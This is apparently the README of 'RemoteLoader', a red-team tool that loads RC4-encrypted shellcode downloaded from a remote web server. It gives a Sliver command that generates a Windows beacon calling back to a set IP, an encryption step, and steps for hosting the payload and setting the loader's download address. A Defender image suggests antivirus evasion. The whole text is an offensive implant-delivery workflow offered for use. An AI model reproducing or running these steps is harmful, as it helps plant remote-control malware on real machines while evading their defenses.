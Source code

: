 # RemoteLoader

Just another shellcode loader from remotely using rc4 encryption.

## Usage

Generate a sliver's beacon
```
generate beacon --seconds 10 --jitter 3 --os windows --arch amd64 --format shellcode --http 10.8.0.148 --name redteam --save /tmp/shellcode.bin -G --skip-symbols
```
Encrypt it with `rc4.py`
```
python3 rc4.py yourkey shellcode.bin
```
We will get shellcode.bin.enc file, run python3 web server and modify your web service ip and port in RemoteLoader.cpp.

<img src=Defender.png>